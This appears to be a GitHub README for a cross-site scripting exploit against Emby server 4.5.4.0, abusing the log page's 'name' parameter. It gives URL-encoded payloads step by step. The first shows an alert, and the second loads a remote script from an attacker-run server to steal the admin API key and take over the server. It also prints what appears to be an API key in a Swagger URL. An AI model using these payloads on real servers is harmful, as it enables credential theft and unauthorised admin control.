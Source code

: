 # Emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and webpage will show an alert dialog (U may have to refresh 2-3 times).

# Emby-4.5.4.0-xss-steal-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%30%30%2f%65%6d%62%79%2e%6a%73%27%3e"**.

3.Browse the edited url and page will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

![image](https://raw.githubusercontent.com/EstamelGG/emby-4.5.4.0-xss-exp/main/WX20210128-174426%402x.png)

4.You can use admin api to add user or change password or any thing need privilege. 

# Referrer: 

http://swagger.emby.media/?url=http://192.168.201.3:8096/emby/openapi&api_key=902c563ed3184ff4b1492aca4a5644de#/
